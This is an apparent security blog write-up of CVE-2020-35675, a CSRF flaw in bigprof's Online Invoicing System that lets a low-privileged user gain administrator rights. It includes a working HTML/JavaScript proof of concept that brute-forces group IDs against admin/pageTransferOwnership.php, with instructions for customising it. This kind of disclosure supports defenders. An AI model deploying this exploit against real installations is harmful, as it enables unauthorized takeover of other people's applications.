 ```yaml
---
layout: post
title: CVE-2020-35675
tags: [CVE-Writeup, CSRF]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 3.0
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via Cross Site Request Forgery
CVE ID: CVE-2020-35675
```

# Introduction

Online Invoicing System offers a functionality which allows an administrator to move the records of members across groups. The endpoint (admin/pageTransferOwnership.php), which is responsible for moving members across groups lacks CSRF protection thus resulting in an attacker being able to escalate their privileges to Administrator and effectively taking over the application by having the application's admin browse to an attacker controlled page which contains the specially crafted proof of concept.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

When browsing to `admin/pageTransferOwnership.php` with a user that has administrative privileges, the "Batch Transer of Ownership" functionality will be made available:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/batch.png)

As stated by the application, this functionality allows an administrator to:
> The batch transfer wizard allows you to transfer data records of one or all members of a group (the source group) to a member of another group (the destination member of the destination group)

After selecting the required dropdowns, an example of a successful request will look as follows:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/request.png)

Let's break down the above request to make it easier to understand:

~~~
sourceGroupID = The ID of the group you would like to be moving records from. 
sourceMemberID = The username of the member you would like to move records for. Using -1 means that all user records will be moved.
destinationGroupID = The ID of the group you would like to move records to.
moveMembers = If 1 that means it will move the member and their data to the group and not overrwrite any existing records in the destination group.
~~~

Something else you might notice in the request is that there appears to be no CSRF protecton such is in the form of a token (whether it be a parameter or cookie). Furthermore looking closely, we notice that the application does not utilize `Same Site Cookies` meaning this this endpoint is most likely vulnerable to Cross-Site Request Forgery.

However as shown in the request above in order for succesful exploitation to occur, an attacker would need to know the values of the following parameters:

~~~
sourceGroupID
destinationGroupID
~~~

After enumerating the application, it appears there is no concrete way for an attacker to retrieve the Group ID in which they are part of. Furthermore, it appears there is no way for the attacker to retrieve the Group ID of the Administrator's group either. While normally this could be seen as the nail in the coffin, there is a way around this.

An astute attacker would observe that on a fresh install, there are two groups which are created automatically with the following ID's:

~~~
Anonymous - 1
Admins - 2
~~~

Meaning that anytime a new custom group will be created, it will start from ID 3 and increment from there. Finally, the application does not allow the administrator to delete the pre-created groups meaning the ID of the Admin group will always result in 2.

With this in mind, an attacker is now aware of the `destinationGroupID` and will only need the `sourceGroupID` in which they are apart of in order to transfer their account to the Admin's group therefore granting themselves administrator privileges.

As mentioned earlier, this value will start from 3 and increment based on the number of custom groups the application has.

Since the endpoint is using a `GET` request to pass the information to the server, the following HTML snippet can be used:

~~~javascript
<img src="http://localhost/admin/pageTransferOwnership.php?sourceGroupID=3&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1"></img>
~~~

Upon the application's administrator visiting a page which contains the above HTML, their browser will try to load the image by requesting the URL above. However instead of loading the image, the browser will follow the URL and trigger the vulnerability. The proof of concept above will attempt to move the records of a member whose username attacker from Group 3 to Group 2.

As mentioned before, the attacker is unaware of the group in which their user lives in. Using the snippet above is effectively playing Russian Roulette as the attacker will have to keep guessing their group. In order to have a good chance of this working, an attacker will need to be extremely lucky.

However instead of relying on luck, the attacker can utilize Javascript to leverage the following proof of concept:

~~~javascript
<script>
var i;
for (i = 3; i < 13; i++) {
    var x = document.createElement("IMG");
    x.setAttribute("src", "http://localhost/admin/pageTransferOwnership.php?sourceGroupID="+i+"&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1");
} 
</script>
~~~

The above Javascript snippet will result in 10 iterations (3 -> 13) with each iteration creating a new image tag which sets the value of the `sourceGroupId` parameter to the current value of `i` in the iteration. In the end this will result in 10 image tags with each having a different value for the `sourceGroupID` parameter. In this example, 3-13 was used however in a real life scenario an attacker can create as many iterations as they would like. The reason the range starts at 3 is because it was confirmed earlier that any new custom groups start at that index.

Upon the application's administrator visiting this proof of concept, we can confirm that the requests are succesfully executing by taking a look at the browser's DevTools Network Tab:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/network.png)

As such, an attacker is able to host a specially crafted proof of concept that upon being visted by the application's administrator will move the attacker's user into the Admin's user group therefore effectively granting the attacker administrative privileges and allowing them to takeover the application.

# Proof of Concept

~~~html
<html>
<body>
<script>
var i;
for (i = 3; i < 13; i++) {
    var x = document.createElement("IMG");
    x.setAttribute("src", "http://localhost/admin/pageTransferOwnership.php?sourceGroupID="+i+"&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1");
} 
</script>
</body>
</html>
~~~

**Replace above**:
- Range to suit your needs
- URL pointing to the vulnerable application
- Value of sourceMemberID with your username

